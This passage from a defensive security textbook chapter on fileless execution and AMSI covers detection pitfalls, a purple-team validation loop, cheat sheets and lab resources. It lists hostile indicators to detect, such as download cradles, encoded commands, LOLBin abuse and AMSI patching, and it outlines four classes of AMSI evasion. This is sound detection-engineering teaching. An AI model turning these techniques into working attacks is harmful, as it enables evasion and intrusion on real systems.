

**The takeaway, and the chapter's thesis in miniature:** *fileless* moved every artifact off disk, but each step still lit up a runtime sensor, and correlation across those sensors reconstructs the whole chain. A defender who enabled 4104 + Sysmon + CLR ETW sees everything; a defender relying on file scanning sees nothing. That gap is the entire reason this chapter exists.

## Part 9: Real-World Cases & Pitfalls

**Real-world grounding.** Fileless and AMSI-aware tradecraft is mainstream: commodity loaders stage PowerShell cradles, post-exploitation frameworks default to in-memory .NET execution, and "living-off-the-land" is the norm for both criminal and state actors precisely because it blends into legitimate admin activity. The defensive history is a straight line: PowerShell abuse drove Microsoft to build AMSI and script-block logging; AMSI tampering drove providers to signature the tamper patterns and add memory integrity checks; in-memory .NET drove AMSI-for-.NET in 4.8 and CLR assembly-load ETW. Each offensive move onto a new surface was met by instrumenting that surface — the exact pattern Chapter 3 predicted.

**Common pitfalls:**
- *Believing "fileless" means "undetectable."* It means the evidence moved off disk to memory, logs, registry, and network. Look there.
- *Relying on AMSI alone.* AMSI is in-process and can be tampered with; script-block logging and ETW are the backstop. Enable all three.
- *Ignoring PowerShell v2.* It is the single easiest AMSI evasion and the single easiest detection — remove the feature.
- *Disk-only forensics on a fileless incident.* You will find nothing and conclude "clean." Capture memory and pull 4104/Sysmon/ETW.
- *Alerting on every `powershell.exe`.* Context is everything — parent process, command-line content, and whether the script decodes/downloads/reflects distinguishes malicious from admin.
- *Assuming in-memory .NET is invisible.* AMSI-for-.NET and CLR assembly-load ETW made it visible; keep .NET patched and subscribe to the provider.

## Part 9b: Validating Your Detections — a Benign Purple-Team Loop

Detections that were never tested are hope, not coverage. The mature practice is a **purple-team loop**: safely emulate a technique, confirm the expected telemetry fired, fix the gap, repeat. For fileless/AMSI work you can do this entirely with benign, published test material — no real malware, no bypass.

**Atomic Red Team** is the open library of small, benign technique tests mapped to MITRE ATT&CK; each "atomic" is a documented command that *emulates* a technique so you can check whether your sensors and rules catch it. A conceptual loop for the download-cradle detection from Part 8b:

```
1. Confirm sensors on:   AMSI enabled, 4104 logging on, Sysmon running, SIEM ingesting
2. Emulate (benign):     run Atomic test T1059.001 that mimics a cradle against a LOCAL benign string
3. Verify telemetry:     did 4104 capture the decoded IEX+download? did Sysmon 1 log the cmdline?
4. Verify detection:     did the Sigma rule fire in the SIEM?
5. Close the gap:        if not -> was logging off? rule too narrow? sensor not ingested?
6. Document coverage:    mark T1059.001 (cradle) as "detected", with the rule ID and log source
```



Run this loop across the techniques in this chapter — T1059.001 (PowerShell cradle), T1562.001 (AMSI/ETW tamper indicators), T1620 (in-memory .NET), T1218 (LOLBins), T1112 (registry-resident), T1047 (WMI) — and you convert a pile of rules into a **measured coverage map** against ATT&CK, with each cell backed by an emulation you actually ran. **Purple-team framing:** this is exactly what the "detection engineering" and "purple team" roles do day to day, and it is the single most valuable habit for turning the concepts in this chapter into real, verified defence. It also gives red teamers honest feedback: if the blue side's loop catches your emulation, you know the technique needs more care on a real engagement — the collaboration that makes both sides better.

**A note on doing this safely:** run emulations only on lab hosts or in a change-controlled window on systems you own/administer, use the benign published atomics rather than real tooling, and clean up any artifacts (registry values, scheduled tasks, WMI subscriptions) the tests create. The goal is measured detection coverage, not a live-fire exercise.

## Part 10: Final Revision / Summary

- **Fileless is a spectrum, not a binary** — fully memory-resident, LOLBins, registry/WMI-resident, script droppers. Each shifts the evidence to a different data source; "fileless" ≠ "traceless."
- **AMSI scans decoded content at execution** for PowerShell, WSH, Office VBA, and (4.8+) in-memory .NET — defeating script-level obfuscation/encoding wholesale (the Chapter 3 asymmetry, operationalised).
- **The AMSI test string** (`AMSI Test Sample: 7e72c3ce-...`) lets you verify AMSI benignly, exactly like EICAR for AV.
- **AMSI evasion has four concept classes** — in-process tamper (A), block/uninit (B), legacy host (C), leave-script-world (D) — and **each has a direct detection**: memory-tamper alerts, script-block logging, PSv2-start alert, and EDR memory/ETW respectively. Defeating AMSI lights up another sensor.
- **In-memory .NET / reflective loading** avoids disk image-load events but is caught by AMSI-for-.NET, CLR assembly-load ETW, and memory scanning for unbacked executable pages.
- **Script-block logging (4104)** records de-obfuscated PowerShell independently of AMSI and survives in-process tampering — the single highest-value fileless control.
- **Detection doctrine:** dense runtime instrumentation (AMSI + 4104/4103 + Sysmon + ETW + EDR memory) correlated so evading one sensor exposes the artifact to another.
- **Execution vs persistence** are separate fileless problems — runtime sensors for the live payload, Autoruns/registry/WMI/task auditing for how it returns.
- **Harden then detect:** WDAC + Constrained Language Mode shrink what can run; AMSI blocks known-bad at execution; 4104/Sysmon/ETW record everything for when prevention fails.
- **Validate with a purple-team loop:** benign Atomic Red Team emulations → confirm telemetry → confirm rule fires → close gap → measured ATT&CK coverage.
- **Acquire memory first** in a suspected fileless incident — the payload may exist nowhere but RAM.
- **ATT&CK anchors:** T1059.001, T1562.001, T1620, T1055, T1218, T1112, T1047.

The thread from Chapter 3 runs straight through this chapter and into the next: static disguises fail in memory, so attackers moved *into* memory, and the defender followed with AMSI, script-block logging, ETW, and memory scanning. Chapter 5 picks up the native-code end of that story — **process injection, hollowing, and DLL techniques** — where the shellcode this chapter kept deferring is actually placed into a living process, and where the memory-scanning sensor introduced here (`pe-sieve` and friends) becomes the decisive line of defence.

## Part 11: Cheat Sheet / Quick Reference

**AMSI in one breath:** de-obfuscated content → `AmsiScanBuffer` → provider verdict → block if ≥ 32768. Scans PowerShell, WSH, VBA, and in-memory .NET (4.8+).

**AMSI evasion class → detection**

| Class | Idea | Catch it with |
|---|---|---|
| A in-proc tamper | AmsiScanBuffer "fails open" | mem-tamper on amsi.dll, signatured strings, VirtualProtect alert |
| B block/uninit | AMSI never loads | AMSI health/ETW + 4104 (independent) |
| C legacy host | PowerShell v2 | PSv2 engine-start alert; remove feature |
| D leave scripts | native/injected code | EDR memory scan, ETW TI, injection hooks |

**Enable these sensors (lab/prod, machine you own)**

```
- AMSI: on for PS/WSH/VBA/.NET
- PowerShell Script Block Logging (4104) + Module Logging (4103) + Transcription
- Sysmon: 1,7,8,10,11,12,13,25
- ETW: CLR assembly-load, DNS-Client, (EDR) Threat-Intelligence
- Remove PowerShell v2; consider Constrained Language Mode + WDAC/AppLocker
```

**High-signal fileless indicators**
- PowerShell **v2** engine start
- `VirtualProtect`/patch on **amsi.dll**
- 4104 with `IEX`+`DownloadString`, `FromBase64String`, `Reflection.Assembly::Load`, `-enc`
- LOLBins with URLs/abnormal parents: `mshta`, `rundll32`, `regsvr32`, `wmic /format`
- unbacked executable memory / RWX pages / floating PE headers
- large encoded **registry** writes read by a LOLBin

**Key artifacts to name**
- `amsi.dll`, `AmsiScanBuffer`, `AmsiInitialize`, `HAMSICONTEXT`, `AMSI_RESULT_DETECTED (32768)`
- Provider registry: `HKLM\SOFTWARE\Microsoft\AMSI\Providers`
- Event ID **4104** (script block), **4103** (module), **Sysmon 8** (CreateRemoteThread), **Sysmon 25** (process tampering), Defender **1116/1117** (`Detection Source: AMSI`)
- ETW providers: Microsoft-Windows-PowerShell, CLR assembly-load, Threat-Intelligence
- Memory-hunt tools: `pe-sieve`, `hollows_hunter`, `Moneta`, Volatility 3 `malfind`

**Decode an -enc blob:** `base64 -d | iconv -f UTF-16LE -t UTF-8` — always decode, never trust.

**One-line mental model of the whole chapter:**

> Fileless moves every artifact off disk, but code must still run — and running touches an engine (AMSI), a log (4104), memory (pe-sieve), or the network (Sysmon 3). Instrument those four and "fileless" stops being "invisible."

**Fastest triage questions for a suspected fileless host**
- Is script-block logging (4104) on, and what did the last decoded blocks do?
- Any PowerShell **v2** engine starts?
- Any `-enc` command lines? Decode them.
- Any process hosting the **CLR** or **amsi.dll** that shouldn't?
- Does `pe-sieve`/`malfind` flag unbacked-executable or RWX memory?
- Any suspicious **Run keys**, **WMI subscriptions**, or **scheduled tasks**?

## Part 11b: Fileless Technique → Data Source Quick Map

The one table to internalise from this chapter — for any fileless technique, *which sensor still holds the evidence*:

| Technique | On disk | Primary evidence source | Secondary |
|---|---|---|---|
| PowerShell download cradle | nothing | 4104 decoded script | Sysmon 1/3, AMSI |
| Obfuscated PowerShell | nothing | 4104 (de-obfuscated) | AMSI, transcription |
| `-EncodedCommand` blob | nothing | Sysmon 1 cmdline (decode it) | 4104 |
| In-memory .NET assembly | nothing | ETW CLR assembly-load | AMSI 4.8+, Sysmon 7 (clr.dll) |
| Reflective DLL | nothing | memory scan (unbacked exec) | absence of image-load event |
| Injected shellcode | nothing | Sysmon 8/10, memory scan (RWX) | ETW TI provider |
| AMSI tamper | nothing | mem-tamper alert on amsi.dll | 4104 (the tamper script) |
| LOLBin abuse | benign signed EXE | Sysmon 1 cmdline + parent | Sysmon 3 network |
| Registry-resident | registry hive | Sysmon 12/13 reg writes | Run-key → LOLBin at trigger |
| WMI-resident | WMI repo | Sysmon 19/20/21 | subscription enumeration |
| Scheduled-task persistence | task XML | task-create events, Autoruns | trigger-time process |

Read every row the same way: the disk column is empty (that's what "fileless" means), and the evidence lives on a *runtime, registry, memory, or WMI* source instead. Enable those sources and fileless stops being invisible.

## Part 11c: Memory Hooks — Locking the Concepts In

- **"Fileless ≠ traceless."** The evidence moved off disk to memory, logs, registry, WMI, and network. Know which one per technique.
- **"AMSI scans the reveal."** Script/managed engines must de-obfuscate to run; AMSI reads that buffer. Explains why base64 PowerShell died.
- **"AMSI is in-process; logging is not."** In-process AMSI can be tampered with, but script-block logging (4104) is written by the engine and shipped off-box — the backstop.
- **"Defeating one sensor lights up another."** Every AMSI evasion class either makes tamper telemetry or pushes onto memory/ETW. Layer them.
- **"PowerShell v2 = downgrade alarm."** No AMSI in v2, so a v2 engine start is near-certain evasion — and a trivial detection. Remove the feature.
- **"Follow the engine and the content, not the EXE name."** Unmanaged PowerShell and odd hosts still route through AMSI and script logging.
- **"Acquire memory first."** For a suspected fileless incident, capture RAM before reboot — the payload may exist nowhere else.

Seven lines that compress the chapter; if you can expand each into its paragraph, you understand fileless execution and AMSI at working depth.

## Part 12: Practice Labs & Resources

Topic-specific and defensively-framed — these train AMSI/fileless *detection and analysis*, not weaponization. Handle anything live only in an isolated VM you own.

- **TryHackMe — "Runtime Detection Evasion," "Living Off the Land," "AV Evasion: Shellcode," and the "Sysmon," "Windows Event Logs," "Investigating with Splunk/ELK" rooms.** The defender-framed rooms show AMSI/script-block logging from the blue side.
- **HackTheBox Academy — "Windows Event Logs & Finding Evil," "Intro to MAL Analysis,"** and the PowerShell/AMSI detection modules.
- **Blue Team Labs Online & CyberDefenders** — investigations built on real 4104/Sysmon/ETW telemetry from fileless intrusions; the single best way to practise the correlation in Part 7.
- **Microsoft's AMSI documentation** (the `AmsiScanBuffer`/provider API reference) and the **AMSI test string** page — authoritative, and the safe way to verify AMSI works.
- **MITRE ATT&CK** pages for T1059.001, T1562.001, T1620, T1218 — each links to attributed campaigns using exactly these techniques.
- **Tooling to learn (defensive):** Sysmon + a SIEM (ELK/Wazuh/Splunk free), `pe-sieve` / `Moneta` / `hollows_hunter` (scan live processes for injected/unbacked/reflectively-loaded code), Process Hacker / System Informer (inspect process memory regions), and the Windows Event Viewer PowerShell/Operational log.
- **Detection-engineering practice:** enable script-block logging on a lab VM, run *benign* obfuscated-then-run PowerShell (as in Part 7), and author Sigma rules that fire on the decoded 4104 content; then convert them to your SIEM's query language. Reversing-then-detecting is the loop that builds real fileless intuition.
- **Reversing side:** Flare-On and crackmes that include .NET/in-memory challenges, plus dnSpy/ILSpy for inspecting managed assemblies you recover from memory.
- **Atomic Red Team** (the benign ATT&CK emulation library from Part 9b) — run the T1059.001, T1620, T1218, T1112, and T1047 atomics on a lab host and verify each fires your 4104/Sysmon/ETW detections. This is the single best way to turn reading into measured coverage.
- **Memory forensics:** learn **Volatility 3** against a captured RAM image — the `windows.malfind` plugin surfaces injected/RWX regions, `windows.pslist`/`psscan` find hidden processes, and `windows.dlllist`/`ldrmodules` reveal reflectively-loaded modules. Practising on the public sample memory images (the Volatility project ships several) builds the "acquire memory first" muscle from the Why-This-Matters section.
- **LOLBAS project** (lolbas-project.github.io) — the authoritative catalogue of LOLBins and their abuse; read it as a *defender* to know which command-line patterns to alert on.
- **Sigma HQ rules repository** — study the community PowerShell/AMSI/LOLBin rules to see production-grade detection logic, then adapt them to your SIEM.
- **A concrete self-study arc:** (1) stand up a Windows lab VM with Sysmon + script-block logging + a free SIEM; (2) run benign Atomic Red Team tests for each technique in this chapter; (3) confirm the telemetry and write/adapt Sigma rules until each fires; (4) capture a RAM image mid-test and find the artifacts in Volatility; (5) document your ATT&CK coverage map. That loop is exactly what detection engineers do, and it cements every concept here.

Master this and you can answer the only question fileless intrusions pose: *if it never hit disk, where did it still show up — and did I have that sensor on?* Chapter 5 continues onto the native side of in-memory execution: **process injection, hollowing and DLL techniques**, where the shellcode this chapter kept mentioning actually gets placed into a living process, and where memory scanning becomes the decisive defence.
